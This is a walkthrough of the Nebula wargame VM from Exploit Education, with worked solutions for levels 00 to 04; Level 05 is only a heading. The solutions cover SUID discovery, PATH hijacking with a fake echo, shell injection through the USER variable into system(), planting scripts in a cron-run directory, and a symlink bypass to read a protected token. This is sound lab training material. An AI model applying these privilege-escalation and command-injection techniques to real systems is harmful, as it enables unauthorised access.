 # Exploit Education - Nebula

This is a walkthrough of [Nebula](http://exploit.education/nebula/) from [Exploit Education](http://exploit.education/).  

Nebula is a Linux virtual machine designed to demonstrate a number of weaknesses and vulnerabilities in Linux. 

## Setup
To run these tasks I use VirtualBox. The virtual machine has 1 GiByte of RAM, no virtual hard drive and network set to Host Only Adapter. The Nebula ISO image is attached and on startup the Live Image is selected from the boot menu. Once presented with a prompt login with username and password of 'nebula'. Then run `ifconfig` to get the IP address of the virtual machine.  

With the virtual machine running I log into each level using `ssh`:
```
$ ssh levelnn@NEBULA_VM_IP_ADDRESS
```
The username and password for each level take  the form 'levelnn' where nn is the number of the level. The aim of each level is to be able to run the `getflag` command to under the 'flagnn' account.

## Levels
[Level 00](#level-00)  
[Level 01](#level-01)  
[Level 02](#level-02)  
[Level 03](#level-03)  
[Level 04](#level-04)  
[Level 05](#level-05)  

### Level 00

[Level 00 Description](https://exploit.education/nebula/level-00/)  

First of all we use `find` to find any SUID applications that we can run.
```
level00@nebula:~$ find / -type f -perm -u+s 2>/dev/null
```
In amoungst the find result we see:
```
...
/rofs/bin/.../flag00
...
level00@nebula:~$ ls -al /rofs/bin/.../flag00 
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00
```
Try and run the `flag00` application.
```
level00@nebula:~$ /rofs/bin/.../flag00 
Congrats, now run getflag to get your flag!
flag00@nebula:~$ 
```
The application has given us a shell as the flag00 user. We can now run `getflag`
```
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 01

[Level 01 Description](https://exploit.education/nebula/level-01/)

From inspection of the source code attached to the description we can see that the `flag01` program uses the `system()` function to call `echo` and write 'and now what?' to stdout. 
```
level01@nebula:~$ ls -al /home/flag01
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
level01@nebula:~$ /home/flag01/flag01
and now what?
```
`flag01` is an SUID application therefore it will run any commands as the flag01 user. The absolute path of `echo` isn't set therefore we can create a fake echo command to give us a shell under the flag01 account.  

To do this we simply create a one line script in `/tmp/echo` which just runs `/bin/bash`. We give the script execute permissions and and /tmp to the PATH.
```
level01@nebula:~$ echo /bin/bash > /tmp/echo 
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ export PATH=/tmp:$PATH
```
Now when we run `flag01` we drop into a shell under the flag01 account and we can run `getflag`.
```
level01@nebula:~$ /home/flag01/flag01 
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 02

[Level 02 Description](https://exploit.education/nebula/level-02/)

From inspection of the source code attached to the description we can see that the `flag02` program uses fills a buffer with a command which is then executed by the `system()` function. The command uses `echo` to print the USER environment variable. We can modify the USER variable to manipulate the command to give use a shell.

Initial experimentation:
```
level02@nebula:~$ cd /home/flag02
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo level02 is cool")
level02 is cool
```
Initial attempt at changing the USER variable:
```
level02@nebula:/home/flag02$ USER=/bin/sh ./flag02
about to call system("/bin/echo /bin/sh is cool")
/bin/sh is cool
level02@nebula:/home/flag02$ USER=/bin/sh; ./flag02
about to call system("/bin/echo /bin/sh is cool")
/bin/sh is cool
```
Success!
```
level02@nebula:/home/flag02$ USER=';/bin/sh #' ./flag02
about to call system("/bin/echo ;/bin/sh # is cool")

sh-4.2$ #
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
### Level 03

[Level 03 Description](https://exploit.education/nebula/level-03/)

Initial iscpection of /home/flag03 shows that there is a script called `writeable.sh` and a directory called `writeable.d` in /home/flag03. 
```
level03@nebula:~$ ls
level03@nebula:~$ ls /home/flag03
writable.d  writable.sh
```
`writable.sh` is the cron task. It executes any scripts in the directory `writeable.d` and then deletes the file. 

We can create a short script that will call `getflag` and place it in `writeable.d`. The script will run under the flag03 account so getting the flag will succeed.
```
level03@nebula:~$ echo 'getflag > /tmp/flag.out' > script.sh
level03@nebula:~$ cp script.sh /home/flag03/writable.d
```
A few minutes later...
```
level03@nebula:~$ ls -al /tmp/
total 4
drwxrwxrwt 4 root   root   100 2021-03-28 01:27 .
drwxr-xr-x 1 root   root   220 2021-03-28 01:20 ..
-rw-rw-r-- 1 flag03 flag03  59 2021-03-28 01:27 flag.out
drwxrwxrwt 2 root   root    40 2021-03-28 01:20 .ICE-unix
drwxrwxrwt 2 root   root    40 2021-03-28 01:20 .X11-unix
level03@nebula:~$ cat /tmp/flag.out 
You have successfully executed getflag on a target account
```

### Level 04

[Level 04 Description](https://exploit.education/nebula/level-04/)  

```
level04@nebula:~$ ls
level04@nebula:~$ ls -al /home/flag04
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root     120 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:~$  /home/flag04/flag04 
/home/flag04/flag04 [file to read]
level04@nebula:~$ /home/flag04/flag04 token
You may not access 'token'
```
It's not possible to open the `token` file. Looking at code provided in the description token file needs to be called anything except token.

```
level04@nebula:~$ ln -s /home/flag04/token ttttt
level04@nebula:~$ /home/flag04/flag04 ttttt 
[REDACTED]
```
This gives a password that we can use to log in as the flag04 user.

```
ssh flag04@IPADDRESS
[ENTER THE PASSWORD]
```
Now run the get flag command.
```
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
```
### Level 05

[Level 05 Description](https://exploit.education/nebula/level-05/)  

